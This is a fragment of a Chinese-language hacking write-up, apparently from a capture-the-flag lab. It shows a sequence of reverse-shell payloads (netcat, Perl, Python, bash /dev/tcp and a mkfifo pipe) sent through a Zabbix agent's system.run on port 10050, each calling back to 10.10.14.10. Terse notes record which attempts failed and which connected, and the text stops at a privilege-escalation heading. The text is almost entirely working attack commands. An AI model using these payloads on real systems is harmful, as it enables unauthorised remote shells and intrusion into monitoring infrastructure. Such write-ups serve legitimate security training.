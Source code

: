 ![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-02-11/2.PNG)

```
echo system.run[ nc -e /bin/bash 10.10.14.10 1235 ] | nc 172.17.0.1 10050
提示nc没有-e参数
---
echo system.run[ perl -e 'use Socket;$i="10.10.14.10";$p=1235;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' ] | nc 172.17.0.1 10050
提示ZBXD)ZBX_NOTSUPPORTEDInvalid item key format.
---
echo system.run[ whereis python ] | nc 172.17.0.1 10050
echo system.run[ /usr/bin/python3.6 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' ] | nc 172.17.0.1 10050

ZBXD)ZBX_NOTSUPPORTEDInvalid item key format.
连接失败
---
echo system.run[ nc 10.10.14.10 1235 ] | nc 172.17.0.1 10050
成功连接
---
echo system.run[ /bin/sh -i >& /dev/tcp/10.10.14.10/1235 0>&1 ] | nc 172.17.0.1 10050

echo system.run[ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 1235 >/tmp/f ] | nc 172.17.0.1 10050
成功反弹172.10.0.1的/bin/sh到本地
连上了是连上了，但总是会掉线
---
本机监听nc -lnvp 1234
echo "system.run[(/bin/bash -c 'bash -i >/dev/tcp/10.10.14.10/1234 0<&1 2>&1 &')]" | nc 172.17.0.1 10050
连上了
```
## 提权
